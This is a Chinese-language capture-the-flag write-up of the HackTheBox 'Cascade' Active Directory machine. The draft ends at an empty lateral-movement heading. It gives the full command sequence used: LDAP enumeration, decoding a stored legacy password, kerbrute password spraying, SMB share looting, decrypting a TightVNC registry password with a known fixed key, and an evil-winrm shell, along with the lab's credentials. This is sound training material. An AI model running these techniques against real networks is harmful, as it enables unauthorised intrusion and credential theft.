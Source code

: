 ```yaml
---
title: "HTB Cascade"
date: 2024-04-20T00:42:39+08:00
description: HackTheBox Cascade Walkthrough
math: false
tags: [
    "Windows",
    "Active Directory",
    "LDAP",
    "Kerberos",
    "SMB",
    ".NET",
    "Reverse Engineering",
    "TightVNC",
]
categories: [
    "HackTheBox"
]
draft: true
description: 'HackTheBox Cascade Walkthrough'
---
```


[![20240421144458](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240421144458.png)](https://app.hackthebox.com/machines/235)

## nmap 枚举

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.182 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.182
```

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-18 09:02:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

389, 636, 3268, 3269 端口是 LDAP 端口，这台主机大概率是一台域控主机。且通过 nmap 默认脚本可知域名为 cascade.local

## 尝试 smb 枚举

优先查看smb匿名登录权限

匿名登录smb，查看共享文件夹（Sharename）

```bash
smbclient -L 10.10.10.182
```

```txt
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.182 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

无法获取信息

## LDAP 枚举

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap>

```bash
# 简单的LDAP枚举
nmap -p 389 --script ldap-rootdse 10.10.10.182
```

```txt
...
dnsHostName: CASC-DC1.cascade.local
|       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
...
```

通过 [`windapsearch`](https://github.com/ropnop/go-windapsearch) 输出LDAP的所有属性

```bash
# 输出所有用户属性
./windapsearch --dc 10.10.10.182 --full -m users
```

```txt
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
cascadeLegacyPwd: clk0bjVldmE=
...
```

用户描述字段中似乎没有任何密码，因此我们可以开始检查其他用户属性。用户 r.thompson 的一个属性叫做 cascadeLegacyPwd ，其中包含一个 Base64 编码字符串。解码之后使用 kerbrute 测试，发现就是他的密码。

```bash
kerbrute passwordspray --dc 10.10.10.182 -d cascade.local r.thompson rY4n5eva
```

## 利用 r.thompson 的账户凭证

- 尝试powershell remoting，但是失败

```bash
evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva
```

- 登录 smb

```bash
# 查看共享权限
smbmap -H 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```

```txt
[+] IP: 10.10.10.182:445   Status: Authenticated
        Disk               Permissions     Comment
        ----               -----------     -------
        ADMIN$             NO ACCESS       Remote Admin
        Audit$             NO ACCESS
        C$                 NO ACCESS       Default share
        Data               READ ONLY
        IPC$               NO ACCESS       Remote IPC
        NETLOGON           READ ONLY       Logon server share
        print$             READ ONLY       Printer Drivers
        SYSVOL             READ ONLY       Logon server share
```

```bash
# 登录
smbclient \\\\10.10.10.182\\Data -U r.thompson
```

```txt
smb: \IT\Email Archives\> get Meeting_Notes_June_2018.html
```

查看下载的html文件

```bash
cat Meeting_Notes_June_2018.html
```

```html
...
We will be using a temporary account to perform all tasks related to the network
migration and this account will be deleted at the end of 2018 once the migration
is complete. This will allow us to identify actions related to the migration in
security logs etc. Username is TempAdmin (password is the same as the normal
admin account password).
...
```

获得信息：TempAdmin账户的密码与默认管理员账户的密码相同

下载其他敏感文件

```txt
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\DCs\> get dcdiag.log
```

ArkAdRecycleBin.log 包含了一个名为 ARK AD RECYCLE BIN MANAGER 的程序的文本日志。

```bash
cat ArkAdRecycleBin.log
```

```txt
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

日志告诉我们程序正在 ArkSvc 的上下文中运行，并且 TempAdmin 账户已被移动到回收站。

最后，Temp 包含了用户 r.thompson 和 s.smith 的文件夹。在 s.smith 的文件夹中可以找到 VNC Install.reg 文件。这似乎是 TightVNC 的注册表设置备份，一个桌面远程控制程序。

```txt
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```

```bash
cat "VNC Install.reg"
```

```txt
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```

## TightVNC 注册表密码解密

<https://github.com/frizb/PasswordDecrypts>

```bash
$> msfconsole

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
 => "sT333ve2"
```

获得 s.smith 的 TightVNC 密码：sT333ve2

## Get Shell

使用 `windapsearch` 可以 `s.smith` 账户具有远程管理的 `CN`

因此可以使用 `evil-winrm` 登录

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

在 `C:\Users\s.smith\Desktop` 下找到 `user.txt`

## Lateral Movement

## 横向移动
